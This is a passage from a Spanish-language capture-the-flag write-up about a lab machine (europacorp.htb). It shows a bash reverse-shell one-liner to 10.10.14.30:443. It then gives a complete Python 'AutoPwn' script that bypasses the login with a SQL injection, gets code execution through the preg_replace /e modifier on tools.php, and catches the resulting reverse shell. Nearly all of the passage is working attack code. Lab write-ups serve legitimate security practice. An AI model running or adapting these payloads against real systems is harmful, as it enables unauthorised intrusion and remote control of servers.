 Con la ejecución remota garantizada, solo queda hacer uso del tipico **OneLiner** para entablarnos una **RevShell**:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.30/443 0>&1'
```

--------
#### Creating an AutoPwn script for Intrusion [Python Scripting]  
Todo este proceso, podemos automatizarlo con **Python** para practicar un poco de scripting con este lenguaje de programación:
```python
from pwn import *
import signal
import sys
import threading
import pdb
import urllib3
urllib3.disable_warnings()

# ctrl + c
def def_handler(sig,frame):
	print("\n[!] Saliendo...")
	sys.exit(1)
signal.signal(signal.SIGINT, def_handler)

# Variables
login_url = "https://admin-portal.europacorp.htb/login.php"
rce_url = "https://admin-portal.europacorp.htb/tools.php"
lport = 443

# Funciones
def makeRequest():

	s = requests.session()
	s.verify = False
	
	post_data = {
		'email' : "admin@europacorp.htb' union select 1,2,3,4,5-- -",
		'password' : "#"
	}

	r = s.post(login_url, data=post_data)

	post_data = {
		'pattern' : '/pwned/e',
		'ipaddress' : """system("bash -c 'bash -i >& /dev/tcp/10.10.14.30/443 0>&1'")""",
		'text' : 'pwned'
	}

	r = s.post(rce_url, data=post_data)


# Flujo del programa
if __name__ == "__main__":

	try:
		threading.Thread(target=makeRequest, args=()).start()
	except Exception as e:
		log.error(str(e))


	shell = listen(lport, timeout=20).wait_for_connection()
	shell.interactive()
```